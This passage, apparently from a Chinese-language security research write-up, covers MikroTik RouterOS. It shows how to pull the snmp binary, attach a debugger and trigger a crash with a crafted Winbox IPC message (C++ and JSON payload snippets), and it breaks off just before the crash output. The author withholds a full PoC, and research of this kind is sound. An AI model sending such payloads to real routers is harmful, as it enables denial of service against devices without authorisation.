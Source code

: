 ### 获取目标程序

目标程序为 `/nova/bin/snmp`，我们将它复制到 `/rw/disk` 目录下面然后用上面的小脚本获取即可。

```plain
# in RouterOS root shell
cp /nova/bin/snmp /rw/disk

# in host shell
python mftp.py -u <uname> -p <pwd> --ip <ip> -o get -f snmp
```

### 调试目标

```plain
./gdbserver :12345 --attach $(pidof snmp)
```

### 触发漏洞

这里不提供完整 PoC，只给出触发漏洞的关键部分（这一部分也可以在 [pocs\_slides/slides/POC2022-MikroTik\_RouterOS\_Security-The\_Forgotten\_IPC\_Message.pdf](https://github.com/cq674350529/pocs_slides/blob/master/slides/POC2022-MikroTik_RouterOS_Security-The_Forgotten_IPC_Message.pdf) 中找到）：

```plain
char payload[513];
    memset(payload, 'a', sizeof(char) * 512);
    WinboxMessage msg;
    msg.set_to(34, 0x1);
    msg.set_command(0xfe0005);
    msg.add_u32(0x14, 0xfffffffe);
    msg.add_string(0x5, payload);
    msg.set_request_id(1);
```

这个 payload 的 JSON 构造为：

```plain
{u14:0xfffffffe,uff0006:1,uff0007:0xfe0005,s5:'a'*512,Uff0001:[34,1]}
```

根据前置知识，我们可以了解到：

1.  它要访问的是 `/bin/snmp` 的第一个 handler；
2.  它希望添加对象；
3.  它定义了一个 u32 数字 0xfffffffe；
4.  它定义了一个字符串 payload；
5.  它设置了 `SYS_REQID` 为 1。

可以触发崩溃：
